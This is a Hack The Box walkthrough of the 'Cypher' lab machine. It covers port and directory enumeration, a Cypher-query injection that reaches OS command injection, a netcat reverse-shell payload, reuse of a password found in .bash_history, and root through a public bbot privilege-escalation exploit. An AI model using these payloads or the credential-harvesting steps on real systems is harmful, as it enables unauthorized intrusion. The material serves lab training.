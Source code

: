 ```yaml
---
name: Cypher
difficulty: medium
os: linux
platform: htb
date: 2025/07/03

img: https://labs.hackthebox.com/storage/avatars/765cd4be6f3a366ca83c7ea60bbcaaa8.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.57 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We will add `cypher.htb` to our `/etc/hosts` file to access the web service:

```bash
echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```

We try to get more information about the open ports using service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV -vvv 10.10.11.57 -o targeted
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be68db828e6332455446b7087b3b52b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMurODrr5ER4wj9mB2tWhXcLIcrm4Bo1lIEufLYIEBVY4h4ZROFj2+WFnXlGNqLG6ZB+DWQHRgG/6wg71wcElxA=
|   256 e55b34f5544393f87eb6694cacd63d23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqadcsjXAxI3uSmNBA8HUMR3L4lTaePj3o6vhgPuPTi
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We use `gobuster` to enumerate directories and files in the web application:

```bash
gobuster dir -u http://cypher.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 4986]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/demo                 (Status: 307) [Size: 0] [--> /login]
/index                (Status: 200) [Size: 4562]
/index.html           (Status: 200) [Size: 4562]
/login                (Status: 200) [Size: 3671]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

## User Exploitation

We find a .jar file in the `/testing` directory, which is a Java application

We can use `http://www.javadecompilers.com/` to decompile the .jar file and analyze its contents.

We find a procedure called `custom.getUrlStatusCode` that takes a URL as an argument and returns the HTTP status code of that URL. This procedure is vulnerable to command injection, allowing us to execute arbitrary commands on the server.

We can exploit this vulnerability by injecting a command that will call the `custom.getUrlStatusCode` procedure with a URL that contains a command injection payload. For example, we can use the following payload:
```
{
  POST /api/auth HTTP/1.1


  "username":"a' RETURN h.value as hash UNION CALL custom.getUrlStatusCode(\"http://localhost; sleep 2; #\") YIELD statusCode as hash RETURN hash //",
  "password":"admin"
}
```

We use `nc` to listen for incoming connections on port 4444 and then send the payload to the server:

```bash
nc -lvnp 4444
```

We use `nc` to connect to the reverse shell on the server:

```
{
  "username":"a' RETURN h.value as hash UNION CALL custom.getUrlStatusCode(\"http://localhost; sleep 4; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.90 4444 >/tmp/f; #\") YIELD statusCode as hash RETURN hash //",

  "password":"admin"
}
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We can get some credentials in .bash_history:

```
cU4btyib.20xtCMCXkBmerhK
```
We try logging in via SSH with the username `graphasm` and the password `cU4btyib.20xtCMCXkBmerhK` and it works:

```bash
ssh graphasm@cypher.htb
```

We can find the user flag in the home directory:

```bash
cat /home/graphasm/user.txt
```

```
user flag value
```

## Root Exploitation

We can check if user `graphasm` has sudo privileges:

```bash
sudo -l
```

```
User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

We can see that user `graphasm` can run the command `/usr/local/bin/bbot` as root. We can check what is this utility:
```bash
cat /usr/local/bin/bbot
```

We see its calling a python library called `bbot` and we can check the version of the library:

```bash
sudo /usr/local/bin/bbot -v
```
```
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc
```

We can see that the version is `2.1.0.4939rc`, which is vulnerable to Local Privilege Escalation.

We use `https://github.com/Housma/bbot-privesc` repository to exploit the vulnerability:

```bash
git clone https://github.com/Housma/bbot-privesc.git
cd bbot-privesc
sudo /usr/local/bin/bbot -t dummy.com -p preset.yml --event-types ROOT
```

A privilege shell is spawned as root. We can read the root flag:

```bash
cat /root/root.txt
```

```
root flag value
```

## Conclusion

This writeup details the steps taken to exploit the Cypher machine on Hack The Box, from initial enumeration to privilege escalation and obtaining both user and root flags. The process involved web application exploitation, command injection, and leveraging a known vulnerability in the `bbot` utility to gain root access.
This writeup serves as a guide for those looking to understand the exploitation techniques used in this machine

